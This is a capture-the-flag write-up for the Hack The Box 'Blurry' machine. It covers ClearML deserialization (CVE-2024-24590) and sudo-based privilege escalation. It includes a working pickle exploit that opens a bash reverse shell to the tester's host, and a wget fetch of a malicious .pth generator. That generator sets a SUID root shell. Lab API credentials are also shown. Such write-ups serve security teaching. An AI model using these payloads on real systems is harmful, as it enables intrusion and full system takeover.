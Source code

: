 ```yaml
---
layout: post
title: Blurry
difficulty: Medium
description: Blurry is a medium-difficulty Linux machine that features DevOps-related vectors surrounding machine learning.
categories: [writeups]
tags: [HTB, CVE-2024-24590, SUDO]
image:
  path: /assets/blurry/Blurry.png
---
```


## **Summary**

A vulnerability on th ClearML suite ([CVE-2024-24590](https://nvd.nist.gov/vuln/detail/CVE-2024-24590)) was exploited to get remote code execution on the machine, once in a binary that can be run using sudo without a password (`/usr/bin/evaluate_model`) was exploited using `evil_pth` tool to gain a shell as root.

## **Enumeration**

### **nmap**

Started with port scanning wich reveled two open ports 22 and 80.

```
$ nmap 10.10.11.19 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 18:47 +01
...
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
```

### **http - port 80**

Browsing to http://10.10.11.19/ redirects to http://app.blurry.htb/, so we added this line to `/etc/hosts`
```
10.10.11.19	app.blurry.htb
```
The home page contains in input where we can insert a `Full Name`.

> You can insert anything you want, it's not being validated.
{: .prompt-info}

![](/assets/blurry/00.png)

After entring a name, we got redirected to a dashboard where we could open an existing project or create a new one by clicking on `NEW PROJECT`.

![](/assets/blurry/01.png)

We opened a project name `Black Swan`, then went to `EXPEREMENTS`, and hit the `+` button to add a new one.

![](/assets/blurry/02.png)

We followed the instructions presented on the screen by first installing `clearml`, then running the setup script.

```bash
pip install clearml
clearml-init
```

We were prompted to enter some configuration, we obtained them by clicking on `CREATE NEW CREDENTIALS` in the instructions page.

![](/assets/blurry/03.png)

We got this JSON like object.

![](/assets/blurry/04.png)

We had to change the `api_server` to `http://app.blurry.htb/api`. We copied the whole object to our terminal where we ran `clearml-init`.

```
api {
  web_server: http://app.blurry.htb
  api_server: http://app.blurry.htb/api
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "QHGOU49DOVPL6NUJLVW9"
    "secret_key" = "KSQP3ZqOfHleWLjRUvJ9R5Saerx4Fr4AgDmdIXua6ZqFhgX6iJ"
  }
}
```

![](/assets/blurry/05.png)

This script created a config file `clearml.conf` in our home directory.

## **Initial access**

`clearml` is vulnerable to Deserialization of Untrusted Data wich leads to remote code execution, more details can be found [HERE](https://security.snyk.io/vuln/SNYK-PYTHON-CLEARML-6230390).

To exploit this vulnerability we created the following script `exploit.py`.

> This script uploads an artifact in the form of a pickle file, when deserialized it will give us a reverse shell.
{: .prompt-info}

```python
from clearml import Task
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ("bash -c 'bash -i /dev/tcp/10.10.14.65/9000 0>&1'",))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
```

We started a listener.
```
$ nc -lnvp 9000
```

Then ran our script.
```
$ python exploit.py
```

After a short period of time, we received a connection.

> It will take a while to establish a reverse shell after executing the script, just be patiant.
{: .prompt-info}

We extraced an ssh private key `/home/jippity/.ssh/id_rsa` and used it to access the machine via ssh.

```
$ chmod 600 id_rsa
$ ssh -i id_rsa jippity@10.10.11.19
```

## **Privilege escalation**

To excalate our privileges we found that the user `jippity` can execute the binary `evaluate_model` on every file in `/models/` directory with the extension `.pth` as root without the need of a password.

```
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

We used `evil_pth` to create a malicous `pth` file that will give command execution as root.

```
$ wget https://raw.githubusercontent.com/duck-sec/pytorch-evil-pth/master/evil_pth.py
$ scp -i id_rsa evil_pth.py jippity@10.10.11.19:/tmp/hrh/
evil_pth.py                                                                        100% 1006    15.7KB/s   00:00
```

We created a malicious `pth` file, that will copy `/bin/sh` and add the SUID bit to it.
```
$ python3 evil_pth.py 'cp /bin/bash /tmp/hrh/sh && chmod u+s /tmp/hrh/sh'
```

Copied it to `/models/`, then ran `/usr/bin/evaluate_model`.
```
$ cp evil_model.pth /models/hrh.pth
$ sudo /usr/bin/evaluate_model /models/hrh.pth
$ ls -l sh
-rwsr-xr-x 1 root root 1234376 Jun 16 06:24 sh
```

Now that we have our `sh` with SUID bit set, we can start a shell as root.

```
$ ./sh -p
sh-5.1# id
uid=1000(jippity) gid=1000(jippity) euid=0(root) groups=1000(jippity)
```

